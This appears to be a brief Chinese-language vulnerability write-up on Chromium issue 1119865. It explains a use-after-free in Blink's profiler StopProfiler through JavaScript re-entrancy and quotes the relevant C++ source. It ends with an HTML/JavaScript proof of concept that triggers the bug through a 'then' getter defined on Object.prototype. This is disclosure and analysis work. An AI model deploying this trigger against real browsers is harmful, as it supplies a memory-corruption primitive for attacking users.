

https://bugs.chromium.org/p/chromium/issues/detail?id=1119865

### Root case

```
void ProfilerGroup::StopProfiler(ScriptState* script_state,
                                 Profiler* profiler,
                                 ScriptPromiseResolver* resolver) {
  DCHECK(cpu_profiler_);
  DCHECK(!profiler->stopped());

  v8::Local<v8::String> profiler_id =
      V8String(isolate_, profiler->ProfilerId());
  auto* profile = cpu_profiler_->StopProfiling(profiler_id);
  auto* trace = ProfilerTraceBuilder::FromProfile(
      script_state, profile, profiler->SourceOrigin(), profiler->TimeOrigin());
  resolver->Resolve(trace); //[1]

  if (profile)
    profile->Delete();

  profilers_.erase(profiler);

  if (--num_active_profilers_ == 0)
    TeardownV8Profiler();
}
```

[1]处可以重入到js中，执行用户自定义的函数。

```
void CpuProfile::Delete() {
  i::CpuProfile* profile = reinterpret_cast<i::CpuProfile*>(this);
  i::CpuProfiler* profiler = profile->cpu_profiler();
  DCHECK_NOT_NULL(profiler);
  profiler->DeleteProfile(profile);
}

void CpuProfiler::DeleteProfile(CpuProfile* profile) {
  profiles_->RemoveProfile(profile);
  if (profiles_->profiles()->empty() && !is_profiling_) {
    // If this was the last profile, clean up all accessory data as well.
    ResetProfiles();
  }
}
```

第一次执行StopProfiler，通过自定义函数，在[1]处调用第二次StopProfiler，第二次StopProfiler中delete掉的profiler将会接着被第一次StopProfiler使用，导致uaf出现。


### patch




### poc

```
<html>
    <body<>
    </body>
    <script>
        function gc() {
            for (var i = 0; i < 0x100000; ++i) {
                var a = new String();
            }
        }
        async function main(){
            var pf = await performance.profile({ sampleInterval: 10 });
            console.log(pf);
            cnt = 0;
            Object.prototype.__defineGetter__("then", ()=>{
                if( cnt == 0){
                    cnt ++;
                    console.log("hello");
                    pf.stop();
                    gc();
                }
            })
            pf.stop();
        }
        main();
    </script>
</html>
```